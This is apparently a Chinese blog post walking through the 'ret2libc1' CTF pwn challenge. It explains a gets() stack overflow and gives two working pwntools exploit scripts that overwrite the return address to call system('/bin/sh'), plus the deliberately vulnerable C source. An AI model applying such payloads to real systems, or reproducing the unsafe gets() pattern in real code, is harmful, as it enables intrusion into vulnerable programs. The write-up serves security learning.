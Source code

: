 ```yaml
---
layout:     post
title:      ret2libc1
subtitle:   解题思路
date:       2018-07-06
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2libc1)



分析程序，发现main函数中存在gets函数有溢出

![image-20180911173621421](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094637.png)



利用gdb定位溢出点，第113个字符开始覆盖ret返回地址

![image-20180911174258124](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094302.png)



确定返回地址

观察ida反编译结果，发现程序中存在system函数，但是它不是直接执行的system('/bin/sh')命令，而是system('/shell!?')，所以我们需要找到 ‘/bin/sh’ 字符串传到system函数中

![image-20180911174427074](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-094645.png)



寻找/bin/sh字符串位置

![image-20180911202516403](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-122519.png)



找到rodata段中定义的/bin/sh字符串

![image-20180911202553281](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-124033.jpg)



所以这里就有两种思路，第一种通过plt表调用system函数，第二种通过跳转到程序中call system这句指令的地址来执行system('/bin/sh')



exp1.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')
elf = ELF('./ret2libc1')

system_addr = elf.plt['system']
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + 'b'*4 + p32(binsh_addr))


sh.interactive()
```

执行结果

![image-20180911202735712](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-124025.jpg)



exp2.py

```python
#!/usr/bin/env python

from pwn import *

sh = process('./ret2libc1')

system_addr = 0x08048611   #call system 指令的地址
binsh_addr = 0x8048720

sh.sendline('a'*112 + p32(system_addr) + p32(binsh_addr))
sh.interactive()
```



执行结果：

![image-20180911203302487](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-123336.jpg)



ret2libc1源代码

```c
ret2libc1.c

#include <stdio.h>

#include <stdlib.h>

#include <time.h>


char *shell = "/bin/sh";
char buf2[100];

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("shell!?");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf1[100];

    printf("RET2LIBC >_<\n");
    gets(buf1);

    return 0;
}
```

